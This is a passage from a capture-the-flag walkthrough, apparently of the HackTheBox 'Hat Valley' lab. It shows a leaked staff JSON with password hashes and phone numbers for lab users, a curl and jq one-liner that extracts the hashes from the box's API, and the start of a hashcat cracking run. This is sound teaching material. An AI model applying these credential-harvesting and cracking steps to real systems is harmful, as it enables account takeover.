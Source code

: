     [
      {
        "user_id":1,
        "username":"christine.wool",
        "password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
        "fullname":"Christine Wool",
        "role":"Founder, CEO",
        "phone":"0415202922"
      },
      {
        "user_id":2,
        "username":"christopher.jones",
        "password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
        "fullname":"Christopher Jones",
        "role":"Salesperson",
        "phone":"0456980001"
      },
      {
        "user_id":3,
        "username":"jackson.lightheart",
        "password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
        "fullname":"Jackson Lightheart",
        "role":"Salesperson",
        "phone":"0419444111"
      },
      {
        "user_id":4,
        "username":"bean.hill",
        "password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
        "fullname":"Bean Hill",
        "role":"System Administrator",
        "phone":"0432339177"
      }
    ]
    

#### Crack Hashes

I’ll use `curl` and `jq` to fetch the data into a crackable format:

    
    
    oxdf@hacky$ curl -s http://hat-valley.htb/api/staff-details | jq -r '.[] | (.username + ":" + .password)' | tee hashes
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
    

Running `hashcat` without giving it a hash mode (`-m`) will return that the
hashes are ambiguous:

    
    
    $ hashcat hashes --user /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    